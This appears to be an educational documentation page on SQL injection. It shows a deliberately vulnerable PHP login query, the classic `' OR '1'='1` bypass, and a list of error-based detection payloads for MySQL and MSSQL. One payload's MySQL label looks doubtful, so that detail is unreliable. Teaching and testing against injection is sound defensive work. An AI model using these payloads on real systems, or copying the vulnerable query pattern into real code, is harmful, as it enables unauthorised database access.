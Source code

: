 ```yaml
---
sidebar_position: 10
---
```

# SQL Injection (SQLi)

SQL Injection (SQLi) is a code injection technique that allows an attacker to interfere with the queries an application makes to its database. This enables them to view data they are not normally able to retrieve, alter sensitive information, execute administrative operations on the database, and in some cases, issue commands to the operating system. SQLi remains one of the most critical and widespread web vulnerabilities.

## How SQLi Works

SQLi occurs when a web application constructs SQL queries using user-supplied input without proper sanitization or validation. An attacker manipulates this input to inject malicious SQL code, changing the original query's logic.

### Example of a Vulnerable Query (PHP):
```php
$username = $_POST['username'];
$password = $_POST['password'];
$sql = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
$result = $conn->query($sql);
```
If an attacker enters `' OR '1'='1` for `username`, the query becomes:
```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '$password'
```
The `OR '1'='1'` condition always evaluates to true, bypassing the intended authentication.

## Types of SQL Injection

SQLi attacks are broadly categorized by how an attacker retrieves data from the database.

### In-band SQLi (Error-based & Union-based)
Data is extracted using the same communication channel that the vulnerability exists in. This is the most common and straightforward type.  

#### Error-based SQLi
Injects malicious input that causes the database to throw an error message. This error often includes sensitive database information (e.g., table names, column names, or actual data) that the attacker can leverage.
**Detection Payloads**:
*   `' OR 1=1 -- ` (Classic bypass, watch for application behavior)
*   `' OR 1=1 LIMIT 1 -- ` (If the application expects a single result)
*   `'` (Single quote to break the query and observe errors)
*   `"` (Double quote)
*   `)` (Closing parenthesis)
*   `AND 1=CAST((SELECT @@version) AS INT)` (MySQL specific, attempts to cast a string into an integer, causing an error with the version string.)
*   `AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x3a,VERSION(),0x3a,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)` (MySQL specific, common for extracting data via error messages)
*   `' AND 1=CONVERT(int, (SELECT @@version)) --` (MSSQL specific)
*   `' AND 1=CAST((SELECT * FROM users) AS int) --` (Attempts to cast a table into an integer to force an error)  
